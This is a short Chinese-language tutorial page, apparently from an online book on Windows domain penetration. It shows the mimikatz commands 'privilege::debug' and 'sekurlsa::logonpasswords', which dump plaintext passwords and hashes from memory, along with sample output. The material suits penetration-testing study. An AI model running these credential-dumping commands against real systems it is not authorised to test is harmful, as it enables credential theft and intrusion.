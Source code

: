 > 原文：[http://book.iwonder.run/域渗透/4.1.1.html](http://book.iwonder.run/域渗透/4.1.1.html)

### 4.1.1 mimikatz

用法:

```
mimikatz # privilege::debug (提升权限)
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords (抓取明文密码和 hash) 
```

![image](img/0d416f9c4a84567bdb07bb00a996cc18.png)

